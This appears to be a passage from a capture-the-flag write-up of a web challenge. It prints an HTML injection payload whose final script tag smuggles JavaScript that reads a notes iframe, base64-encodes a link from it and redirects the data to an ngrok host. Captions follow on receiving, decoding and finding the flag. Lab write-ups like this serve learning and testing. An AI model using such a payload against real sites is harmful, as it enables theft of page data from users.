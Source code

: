```javascript!
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/somethingxyz/,console.log(document.getElementById('notesframe').contentWindow.document.body.innerHTML);" defer></script>
<script src="http://127.0.0.1/somethingxyz/,console.log(1);a=btoa(encodeURIComponent(document.getElementById('notesframe').contentWindow.document.body.querySelector('a').outerHTML));window.location.href='https://825f-2601-197-380-43a0-99e5-8a79-29c7-8ddf.ngrok-free.app/'+a;" defer></script>

```

![](https://i.imgur.com/Q0wWxam.png)
> what the script will be extracting

**Time to test it on the actualy CTF page.**

![](https://i.imgur.com/9zqKmxw.png)
> Response on the ngrok server

![](https://i.imgur.com/YMkSxxj.png)
> base64 decoded

![](https://i.imgur.com/8m7P3zr.png)
> Flag finally found
